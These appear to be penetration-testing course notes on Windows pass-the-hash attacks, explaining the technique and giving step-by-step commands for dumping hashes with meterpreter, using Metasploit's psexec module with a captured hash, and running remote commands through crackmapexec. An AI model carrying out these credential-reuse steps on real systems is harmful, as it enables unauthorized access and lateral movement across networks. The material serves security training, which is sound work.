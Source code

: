 # D - Pass the Hash Attacks

After obtaining NTLM hashes, what can we do with them apart from cracking them?

We can perform a "Pass the hash Attack".

### **Pass-The-Hash**

* Pass-The-Hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
* We can use multiple tools to facilitate a Pass-The-Hash attack:
  * Metasploit PsExec module
  * Crackmapexec
* This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.



## **Practical Demonstration**

#### Using  \[psexec] Metasploit module

```bash
# after getting the administrator NTLM hash from "kiwi" extension, we can copy it into to a "cred.txt" file.
# Administrator: <hash>
# student: <hash>

# step 1
# in order to use the "psexec" module, we need to get the LM hash in addition to the NTLM or NT hash we already got above.
# how to get the LM hash?
hashdump # in the meterpreter session.
# hashdump displays the <acct_name>:<ID>:LM_hash:NTLM_hash:::
# so we copy the [LM_hash:NTLM_hash] of the required user we need, then paste in same "cred.txt" file above.
ctrl+Z # minimize current meterpreter session.
search psexec
use exploit/windows/smb/psexec
# you can leave the default 32bit payload.
options
set LPORT 4422
set RHOSTS $ip
set SMBUser Adinistrator
set SMBPass <LM_hash:NTLM_hash>
set target <tab+key> # for more options.
set target Native\ upload # upload the meterpreter payload.
exploit
# we get a meterpreter session.
sysinfo 
getuid

session -K # to kill sessions.
```

#### Using  \[crackmapexec]

`crackmapexec smb $ip -u Administrator -H "<NITLM_hash>"` - authenticate with the creds.

`crackmapexec smb $ip -u Administrator -H "<NITLM_hash>" -x "ipconfig"`  - we get the cmd result with some errors, but don't worry abt it (:



